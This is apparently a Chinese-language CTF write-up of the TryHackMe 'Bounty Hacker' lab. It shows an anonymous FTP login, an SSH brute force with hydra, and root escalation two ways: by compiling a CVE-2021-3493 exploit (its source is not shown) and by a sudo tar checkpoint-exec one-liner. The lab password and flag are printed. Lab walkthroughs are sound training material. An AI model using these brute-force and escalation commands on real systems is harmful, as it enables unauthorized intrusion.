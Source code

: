 # Bounty Hacker

你在酒吧里不停地吹嘘你的精英黑客技能，一些赏金猎人决定接受你的索赔！证明你的身份不仅仅是在酒吧喝几杯。我感觉到你的未来有甜椒和牛肉！

---

循例，nmap扫一波

开了21，22，80

先用anonymous尝试登录ftp

成功，里面有两个文件,但是get不下来，重启靶机之后也不行，然后怀疑是被动模式被安全设备拦截的问题，输入命令：

    passive

切换到主动模式，让服务器主动与我们进行数据连接，类似reverse shell的原理

get里面的两个文本文件，task.txt披露了用户名，locks.txt是一个长得像密码本的文件

尝试爆破ssh:

    hydra -l lin -P ./locks.txt 10.10.239.214 ssh

<pre>[<font color="#47D4B9"><b>22</b></font>][<font color="#47D4B9"><b>ssh</b></font>] host: <font color="#47D4B9"><b>10.10.239.214</b></font>   login: <font color="#47D4B9"><b>lin</b></font>   password: <font color="#47D4B9"><b>RedDr4gonSynd1cat3</b></font></pre>

登录进去后，老规矩一波收集信息

    cat /proc/version

<pre><font color="#47D4B9"><b>lin@bountyhacker</b></font>:<font color="#277FFF"><b>~/Desktop</b></font>$ cat /proc/version
Linux version 4.15.0-101-generic (buildd@lgw01-amd64-052) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.12)) #102~16.04.1-Ubuntu SMP Mon May 11 11:38:16 UTC 2020
</pre>

### 稍微非预期

可以看到ubuntu的版本是16.04

CVE-2021-3493

这个漏洞关于是overlayFS的：https://ssd-disclosure.com/ssd-advisory-overlayfs-pe/

这个漏洞在tyrhackme上也有复现room，当然我也是在那个room学到的。

这个漏洞适用于 

    ubuntu 14.04 lts
    ubuntu 16.04 lts
    ubuntu 18.04 lts
    ubuntu 20.04 lts
    ubuntu 20.10

所以直接将exploit传进去

    gcc -o ./getroot ./CVE-2021-3493_exp.c

运行./getroot

<pre><font color="#47D4B9"><b>lin@bountyhacker</b></font>:<font color="#277FFF"><b>~/Desktop</b></font>$ gcc -o getroot ./shell.c
<font color="#47D4B9"><b>lin@bountyhacker</b></font>:<font color="#277FFF"><b>~/Desktop</b></font>$ ./getroot 
bash-4.3# whoami
root
bash-4.3# cat /root/root.txt
THM{80UN7Y_h4cK3r}
</pre>

哈哈，我也是第一次成功利用该漏洞，继thm的那个复现room后。


### 预期解法:

sudo -l查看：

    User lin may run the following commands on bountyhacker:
        (root) /bin/tar

翻一下[垃圾桶](https://gtfobins.github.io/gtfobins/tar/)

tar可以被利用，构造：

    sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash

<pre><font color="#47D4B9"><b>lin@bountyhacker</b></font>:<font color="#277FFF"><b>~/Desktop</b></font>$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
tar: Removing leading `/&apos; from member names
<font color="#47D4B9"><b>root@bountyhacker</b></font>:<font color="#277FFF"><b>~/Desktop</b></font># whoami
root
</pre>
